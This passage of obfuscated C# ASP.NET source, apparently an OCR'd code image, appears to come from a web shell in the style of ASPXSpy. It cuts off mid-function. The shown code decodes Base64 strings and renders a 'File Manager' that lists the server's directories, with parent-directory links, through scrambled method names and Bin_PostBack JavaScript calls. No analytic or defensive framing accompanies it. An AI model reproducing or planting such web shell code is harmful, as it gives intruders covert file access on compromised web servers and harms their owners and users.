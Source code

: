 }
public string Ebgw(string instr)
{
byte[] tmp=Convert.FromBase64String(instr);
return Encoding.Default.GetString(tmp);
}
public void krIR(string path)
{
WICxe();
CzfO.Visible=true;
Bin_H2_Title.InnerText="File Manager >>";
AXSbb.Value=OElM(path);
DirectoryInfo GQMM=new DirectoryInfo(path);
if(Directory.GetParent(nrrx(path))!=null)
{
string bg=OKM();
TableRow p=new TableRow();
for(int i=1;i<6;i++)
{
TableCell pc=new TableCell();
if(i==1)
{
pc.Width=Unit.Parse("2%");
pc.Text="0";
p.CssClass=bg;
}
if(i==2)
{
pc.Text="<a href=\"javascript:Bin_PostBack('Bin_Parent','"+MVVJ(Directory.GetParent(nrrx(path)).ToString())+"')\">Parent Directory</a>";
}
p.Cells.Add(pc);
UGzP.Rows.Add(p);
}
}
try
{
int vLlH=0;
foreach(DirectoryInfo Bin_folder in GQMM.GetDirectories())
{
string bg=OKM();
vLlH++;
TableRow tr=new TableRow();
TableCell tc=new TableCell();
tc.Width=Unit.Parse("2%");
tc.Text="0";
tr.Attributes["onmouseover"]="this.className='focus';";
tr.CssClass=bg;
tr.Attributes["onmouseout"]="this.className='"+bg+"';";
tr.Cells.Add(tc);
TableCell HczyN=new TableCell();
HczyN.Text="<a href=\"javascript:Bin_PostBack('Bin_Listdir','"+MVVJ(AXSbb.Value+Bin_folder.Name)+"')\">"+Bin_folder.Name+"</a>";
tr.Cells.Add(HczyN);
TableCell LYZK=new TableCell();
LYZK.Text=Bin_folder.LastWriteTimeUtc.ToString("yyyy-MM-dd hh:mm:ss");
tr.Cells.Add(LYZK);
UGzP.Rows.Add(tr);
TableCell ERUL=new TableCell();
ERUL.Text="--";
tr.Cells.Add(ERUL);
UGzP.Rows.Add(tr);
TableCell ZGKh=new TableCell();